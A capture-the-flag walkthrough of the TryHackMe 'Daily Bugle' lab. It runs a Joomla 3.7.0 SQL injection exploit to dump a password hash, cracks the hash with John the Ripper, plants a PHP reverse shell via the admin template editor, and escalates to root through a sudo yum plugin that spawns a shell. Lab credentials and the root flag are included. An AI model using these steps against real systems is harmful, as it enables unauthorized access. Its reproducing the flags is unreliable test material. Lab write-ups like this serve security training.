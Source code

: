 ```yaml
---
layout : post 
title: dailybungle

date: 2021-04-25 01:43 +0530

tags: [John TheRipper ,  gtfobin yum]
---
```


# Nmap

```
 nmap -sC -sV 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 01:50 EDT
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

```

# Exploitation

joomblah 3.7.0 is vulnerble for SQLI 

```
python exploit.py  http://10.10.10.5                 
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
<h3>JohnTheRipper</h3>
cracking the hash of jonah 

copy the hash to password_hash

>john  --wordlist=~/rockyou.txt password_hash

```
john  --wordlist=~/rockyou.txt password_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:05:15 0.20% (ETA: 2021-04-26 21:51) 0g/s 108.9p/s 108.9c/s 108.9C/s 010294..ultraviolet
spiderman123     (?)
1g 0:00:07:09 DONE (2021-04-25 01:48) 0.002328g/s 109.0p/s 109.0c/s 109.0C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
`jonah:spiderman123`

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/login.png)

Gaining ReverseShell

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/processn.png)

lets replace the index.php code with [PHPReverseShell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php): code 

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/edit.png)

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/revshell.png)

got the revershell

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/gotshell.png)


# PrivilageEsclation

from linpeasout put at `/var/www/html/configuration.php`

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/config.php.png)

got password `jjameson:nv5uz9r3ZEDzVjNu`

user jjameson can rum yum as root without passwd 

![]({{site.baseurl}}\assets/img/tryhackme/dailyBugle/sudo.png)

```
[jjameson@dailybugle tmp]$ TF=$(mktemp -d)
[jjameson@dailybugle tmp]$ cat >$TF/x<< EOF  
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>    os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# wgoami
sh: wgoami: command not found
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79

```




